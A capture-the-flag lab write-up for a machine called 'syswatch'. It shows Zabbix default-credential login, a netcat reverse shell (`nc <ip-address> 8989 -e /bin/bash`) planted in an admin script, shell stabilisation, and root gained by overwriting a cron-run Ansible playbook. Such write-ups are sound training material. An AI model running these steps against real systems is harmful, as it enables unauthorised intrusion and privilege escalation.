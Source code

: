 # Write Up on syswatch machine

## Information Gathering And Enumeration
Let's us first start of by firing up our network mapper (nmap) to discover open ports and running services on our target. <br>
`nmap -sC -sV -oN syswatch.nmap 10.0.160.159`
```
Nmap scan report for 10.0.160.159
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Cyborg Gaming
5000/tcp open  http    nginx 1.18.0
| http-robots.txt: 2 disallowed entries 
|_/ /zabbix/".
|_http-server-header: nginx/1.18.0
|_http-title: Zabbiz: Zabbix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  3 10:20:45 2023 -- 1 IP address (1 host up) scanned in 24.85 seconds
```

From the above scan we see that there are two services running. I browsed through the service running on port `80` but found nothing interesting. Looking at port `5000` nmap tells us that the application `zabbix` is running on that port.<br>

Let's take a look at it in our browser. <br>
![zabbix homepage](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/zabbix-port-5000-browser.png)

We are greeted with a login page and as usual we test default credentials to see if they work. After some googling we come across the default credentials for `zabbix`. <br>
![zabbix default creds](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/default-logins-zabbix-google.png)


## Exploitation
We can now test these credentials to see if they work. We enter the credentials and just like that we're are logged in to `zabbix`.<br>

After spending sometime reading about zabbix RCE and browsing through the application i found a hosts tab which allows us to run some defaults scripts on hosts in `zabbix`.<br>
![checking zabbix hosts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/checking-hosts-zabbix.png) <br>

And these are the various scripts we can run on the target. <br>
![zabbix host tab](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/zabbix-host-scripts.png)

After further probing i found out that these scripts that are run on the zabbix host can be we edited (because we are the admininstrator). Let's first start off by viewing the content of these default scripts.<br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/see-scripts.png)

After clicking on the script name we are greeted with a form which allows us to change the content of the script. For this demostration we will edit the `traceroute` script. <br>

This is the orginal content of the traceroute script.<br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/default-tracert-script.png)

We can edit this and place our malicious code here. <br>
`nc <ip-address> 8989 -e /bin/bash` <br>
After editing we can click on `update` to save those settings. <br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/edit-and-update-script.png)

We now head back to the `host` tab to run this script on the target server. We simply do that by clicking on the host and clicking on the script we want to run. Hold up!!! before you run the script make sure you have your netcat listening for incoming connections. <br>
![netcat listener](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/listening-on-nc.png)

Finally, we can run our malicous script(traceroute) to get a shell on our listener.<br>
![run mal script](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/run-modified-scripts.png)

Interesting.... we have a shell on the target. <br>
![got shell](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/connection-recieved-on-nc.png)
NB: The script run time on `zabbix` times out after some minutes. If this happens just re-run the traceroute poisoned script.


## Post Exploitation
Anytime we get a shell through netcat we obtain a dumb shell. A dump shell has very little functionality and therefore we need a stable shell. Shell Stabilization prevents you from killing your reverse shell and adds proper shell functionalities.

#### Shell Stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>


## Privilege Escalation
First thing i did was to run `sudo -l` but no luck. Next i decided to check if there's a process running with elevated privileges that can be abused. <br> 
We transfer our trusted friend `pspy64` onto the target. <br>
Brief explanaation of `pspy64`: it is a program that allows us to snoop on linux processes to find sensitve information, processes running with elevated privileges amongst many others. We would have to run this on the target to get the required information. <br>

We start off by starting our python http server in the directory that houses the `pspy64` binary. <br>
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/serving-pspy64.png)

Then we download onto our target machine. Preferably we'll first change directory to the `/tmp` since it has loose permissions (rwx) for all users. <br>
![download pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/cd-to-tmp-and-download-pspy64.png)

Next, we give `pspy64` execute permissions. <br>
![exec pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/execute-perms-on-pspy64.png)

Then we run it. <br>
![run pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/run_pspy64.png)

![cronjob ansible](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/running-cron-job.png)

From the output we find out that a cronjob is running an ansible-playbook. We can find this playbook here: `/opt/playbooks/playbook.yml`. Let's not rush into anything yet, we must first check our permissions on `/opt/playbooks/playbook.yml`. <br>
![check perms](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/write-perms-on-playbook.png)

Wow! we have write permissions. Let's run off to create a malicious playbook. <br>
![mal playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/playbook-yaml-payload.png)

The we download the playbook onto out target. At this point, i assume you already have your python http server setup. <br>
![download mal playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/download-mal-playbook.png)

After this, we quickly setup our netcat listener. Note that in while crafting the malicious playbook we entered a command that will spawn a shell and connect to our machine on port `9090` using netcat. <br>
Now let's listen on port 9090. `rlwrap nc -lnvp 9090`
![other nc](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/other-nc-listening.png)

We can now go back to our target and over write the original `playbook.yml`.<br>
![overwrite playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/over-write-original-playbook.png)

Now, we patiently wait for a connection on `9090`. :rofl: <br>
After a while the cron runs and we receive a connection.<br>
![conn recv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/root-shell-cron-job-execs.png)

We are now root!! :smiley:<br>
![i am root](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/i-am-root.png)